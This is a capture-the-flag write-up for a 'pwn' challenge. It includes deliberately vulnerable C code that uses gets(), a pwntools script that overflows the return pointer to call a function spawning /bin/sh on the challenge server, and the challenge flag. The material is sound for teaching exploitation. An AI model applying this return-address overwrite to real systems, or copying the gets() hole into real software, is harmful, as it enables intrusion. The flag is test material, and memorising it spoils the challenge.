


# Overflow 2

 

```txt
ez overflow (or is it?)
nc cyberyoddha.baycyber.net 10002
- Haskell#1426
```

---

... another _not too_ difficult _pwn_ challenge. This one differs from the previous challenge in you not having to overflow into another array on the stack, but rather into the function return pointer itself.

By looking at the source code, you'll see that you want to somehow call `run_shell` in order to get the flag... it's also not too difficult to see that the insecure function `gets` is being used instead of one of its safer alternatives - this will allow us to write arbitrary data onto the stack ...

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

... in radare, we can see that the function return pointer, which we want to overflow into is stored `0x1c` bytes after the beginning of the input buffer. Furthermore, we see that the `run_shell` function begins at `0x8049172` ...





You can use a short exploit script like the following to get a shell:

```py
#!/usr/bin/python3

import struct
from pwn import *

run_shell=0x8049172
left_padd=0x1c
r = remote('cyberyoddha.baycyber.net', 10002)

r.sendline(b'X'*left_padd+struct.pack('<I',run_shell))
r.interactive()
```

... now... simply cat the flag: `CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}`
